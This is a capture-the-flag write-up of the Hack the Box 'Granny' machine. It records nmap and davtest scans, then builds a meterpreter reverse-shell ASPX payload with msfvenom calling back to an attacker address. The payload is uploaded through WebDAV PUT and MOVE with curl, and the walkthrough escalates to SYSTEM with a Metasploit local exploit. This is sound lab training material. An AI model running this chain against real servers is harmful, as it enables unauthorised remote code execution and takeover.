 ```yaml
---
Tags: webdav, metasploit, windows, aspx
---
```


# Hack the Box - Granny

This was an older Windows box that involved uploading a webshell with webdav and a little trick to get it working. Once we had a foothold with the webshell we used metasploit's exploit suggester module to elevate to SYSTEM and get the user and root flag.

## Information Gathering

### Nmap

```
nmap -sC -sV -oA tcp_Scan 10.10.10.15

Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-22 13:54 EST
Nmap scan report for 10.10.10.15
Host is up (0.036s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Server Date: Sat, 22 Feb 2020 18:55:19 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.57 seconds
```

### Davtest

The webdav discovery gives us an excuse to use davtest to figure out what we can put on the server.

```
davtest -url http://10.10.10.15/

********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.10.10.15
********************************************************
NOTE	Random string for this session: ESckDj23HMIVh0
********************************************************
 Creating directory
MKCOL		SUCCEED:		Created http://10.10.10.15/DavTestDir_ESckDj23HMIVh0
********************************************************
 Sending test files
PUT	asp	FAIL
PUT	jsp	SUCCEED:	http://10.10.10.15/DavTestDir_ESckDj23HMIVh0/davtest_ESckDj23HMIVh0.jsp
PUT	shtml	FAIL
PUT	pl	SUCCEED:	http://10.10.10.15/DavTestDir_ESckDj23HMIVh0/davtest_ESckDj23HMIVh0.pl
PUT	html	SUCCEED:	http://10.10.10.15/DavTestDir_ESckDj23HMIVh0/davtest_ESckDj23HMIVh0.html
PUT	cfm	SUCCEED:	http://10.10.10.15/DavTestDir_ESckDj23HMIVh0/davtest_ESckDj23HMIVh0.cfm
PUT	php	SUCCEED:	http://10.10.10.15/DavTestDir_ESckDj23HMIVh0/davtest_ESckDj23HMIVh0.php
PUT	txt	SUCCEED:	http://10.10.10.15/DavTestDir_ESckDj23HMIVh0/davtest_ESckDj23HMIVh0.txt
PUT	jhtml	SUCCEED:	http://10.10.10.15/DavTestDir_ESckDj23HMIVh0/davtest_ESckDj23HMIVh0.jhtml
PUT	cgi	FAIL
PUT	aspx	FAIL
********************************************************
 Checking for test file execution
EXEC	jsp	FAIL
EXEC	pl	FAIL
EXEC	html	SUCCEED:	http://10.10.10.15/DavTestDir_ESckDj23HMIVh0/davtest_ESckDj23HMIVh0.html
EXEC	cfm	FAIL
EXEC	php	FAIL
EXEC	txt	SUCCEED:	http://10.10.10.15/DavTestDir_ESckDj23HMIVh0/davtest_ESckDj23HMIVh0.txt
EXEC	jhtml	FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_ESckDj23HMIVh0
PUT File: http://10.10.10.15/DavTestDir_ESckDj23HMIVh0/davtest_ESckDj23HMIVh0.jsp
PUT File: http://10.10.10.15/DavTestDir_ESckDj23HMIVh0/davtest_ESckDj23HMIVh0.pl
PUT File: http://10.10.10.15/DavTestDir_ESckDj23HMIVh0/davtest_ESckDj23HMIVh0.html
PUT File: http://10.10.10.15/DavTestDir_ESckDj23HMIVh0/davtest_ESckDj23HMIVh0.cfm
PUT File: http://10.10.10.15/DavTestDir_ESckDj23HMIVh0/davtest_ESckDj23HMIVh0.php
PUT File: http://10.10.10.15/DavTestDir_ESckDj23HMIVh0/davtest_ESckDj23HMIVh0.txt
PUT File: http://10.10.10.15/DavTestDir_ESckDj23HMIVh0/davtest_ESckDj23HMIVh0.jhtml
Executes: http://10.10.10.15/DavTestDir_ESckDj23HMIVh0/davtest_ESckDj23HMIVh0.html
Executes: http://10.10.10.15/DavTestDir_ESckDj23HMIVh0/davtest_ESckDj23HMIVh0.txt

```

## Exploitation

With this information we can generate a payload and upload with webdav. The only catch is we'll have to upload it with a txt extension and rename it later.

### Generating a Payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.54 LPORT=4445 -f aspx > shell.aspx
```

### Upload and Rename

Upload:
```
curl -X PUT http://10.10.10.15/shell.txt -d @shell.aspx 
```

Move:
```
curl -X MOVE -H 'Destination:http://10.10.10.15/shell.aspx' http://10.10.10.15/shell.txt
```

### Foothold

Start metasploit:
```
msfdb run
use exploit/multi/handler
set lhost tun0
set lport 4445
run
```

Navigate to `http://10.10.10.15/shell/aspx`

Once we get our meterpreter session we'll still need to elevate our privileges to read the user flag.

```
use exploit/post/multi/recon/local_exploit_suggester
set session 1
run
```

We'll get a few exploits back but the one that worked for us this time was `windows/local/ms14_058_track_popup_menu`

```
use windows/local/ms14_058_track_popup_menu
set session 1
run

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

### User Flag

```
meterpreter > ls
Listing: c:\Documents and Settings\Lakis\Desktop
================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  32    fil   2017-04-12 15:19:57 -0400  user.txt

meterpreter > cat user.txt
700c5dc163014e22b3e408f8703f67d1meterpreter >
```

### Root Flag

```
meterpreter > ls
Listing: c:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  32    fil   2017-04-12 10:28:50 -0400  root.txt

meterpreter > cat root.txt
aa4beed1c0584445ab463a6747bd06e9meterpreter > 
```

## Resources/References
* https://code.blogs.iiidefix.net/posts/webdav-with-curl/
* https://linux.die.net/man/1/cadaver